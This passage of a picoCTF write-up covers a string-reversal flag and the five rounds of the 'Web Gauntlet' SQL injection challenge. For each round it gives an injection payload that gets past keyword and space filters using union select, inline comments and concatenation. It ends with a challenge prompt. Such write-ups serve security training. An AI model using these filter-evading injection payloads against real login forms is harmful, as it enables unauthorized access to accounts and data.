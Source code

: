 That sure looks promising.  We can filter out the null bytes and reverse it with a little python.  

```bash
python -c "print(''.join(reversed('}.8.3.4.6.0.c.a.e._.3.<._.|.L.m._.1.1.1.t.5._.3.b.{.F.T.C.o.c.i.p'.split('.'))))" 
```
flag: picoCTF{b3_5t111_mL|_<3_eac06438}


# Web Gauntlet

### round 1

Round 1 filters `or`

```1' union select * from users where username='admin'-- ```

### round 2

Round 2 filters `or and like = --`
to fix this we justneed to change the comment and the way we filter down to only admin.  /* works as a comment and i guessed that admin was the first alphabetically and filtered with a less than.  
```1' union select * from users where username<'bdmin'/* ```

### round 3

Round 3 filters `or and = like > < --`

this one blocks spaces so we gotta replace the spaces with comments


```1'/*union*/union/*select*/select/*test*/*/*from*/from/*users*/users/*limit*/limit/*1*/1/*```

### round 4

Round 4 filters `or and = like > < -- admin`

easy fix, just don't log in to admin explicitly and let the limit 1 take care of us

```1'/*union*/union/*select*/select/*test*/*/*from*/from/*users*/users/*limit*/limit/*1*/1/*```

### round 5

Round 5 filters `or and = like > < -- admin union`

I spent far too long trying to find another way to union without union and then the solution clicked.  I control the username as well so I can just select admin and then comment out the password check.  

```'||'adm'||'in'/*"```


# guessing game 1

```text
I made a simple game to show off my programming skills. See if you can beat it! vuln vuln.c Makefile nc jupiter.challenges.picoctf.org 28951
```
